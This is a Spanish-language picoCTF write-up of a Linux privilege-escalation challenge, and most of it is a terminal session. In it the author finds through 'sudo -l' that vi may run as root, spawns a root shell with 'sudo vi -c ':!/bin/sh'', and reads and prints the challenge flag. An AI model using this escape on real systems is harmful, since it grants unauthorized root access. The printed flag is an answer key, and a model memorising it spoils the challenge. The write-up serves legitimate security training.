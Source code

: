 Descripción
¿Puedes leer archivos en el archivo raíz?

Los detalles adicionales estarán disponibles después de lanzar su instancia de desafío.

Hints:
1.⁠ ⁠¿Qué permisos tienes?

Solución 1

Con web shell

Sepulveda24-picoctf@webshell:~$ ssh -p 65358 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:65358 ([13.59.203.175]:65358)' can't be established.
ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:12: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? 
Host key verification failed.
Sepulveda24-picoctf@webshell:~$ ssh -p 65358 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:65358 ([13.59.203.175]:65358)' can't be established.
ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:12: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:65358' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoplayer@challenge:~$ cd /
picoplayer@challenge:/$ ls
bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
picoplayer@challenge:/$ cd root
-bash: cd: root: Permission denied
picoplayer@challenge:/$ cd challenge
-bash: cd: challenge: Permission denied
picoplayer@challenge:/$ cd root
-bash: cd: root: Permission denied
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:/$ sudo vi -c ':!/bin/sh' /dev/null

# cd root
# ls
# ls -al
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Feb 20 22:09 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}
# Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
Sepulveda24-picoctf@webshell:~$ 



Notas adicionales

-------------

Referencias

https://webshell.picoctf.org